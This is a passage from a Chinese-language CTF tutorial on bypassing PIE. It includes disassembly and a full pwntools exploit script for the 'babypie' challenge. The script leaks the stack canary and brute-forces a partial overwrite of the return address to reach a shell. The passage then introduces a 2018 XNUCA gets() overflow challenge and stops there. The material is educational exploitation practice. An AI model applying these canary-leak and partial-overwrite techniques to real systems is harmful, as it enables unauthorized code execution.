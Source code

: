 ```asm
   0x55dc43694a4e:	nop
   0x55dc43694a4f:	pop    rbp
   0x55dc43694a50:	ret    
   0x55dc43694a51:	push   rbp
   0x55dc43694a52:	mov    rbp,rsp
   0x55dc43694a55:	sub    rsp,0x10
```
可以发现, 此时的返回地址与 get shell 函数的地址只有低位的 16 bit 不同, 如果覆写低 16 bit 为 `0x?A3E`, 就有一定的几率 get shell

最终的脚本如下:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
#  context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

while True:
    try:
        io = process("./babypie", timeout = 1)

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        io.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + io.recvn(7)
        success(canary.encode('hex'))

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        io.interactive()
    except Exception as e:
        io.close()
        print e
```
需要注意的是, 这种技巧不止在栈上有效, 在堆上也是一种有效的绕过地址随机化的手段

### 2018-XNUCA-gets

这个题目也挺有意思的，如下

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v4; // [rsp+0h] [rbp-18h]

  gets((char *)&v4);
  return 0LL;
}
```

程序就这么小，很明显有一个栈溢出的漏洞，然而没有任何 leak。。
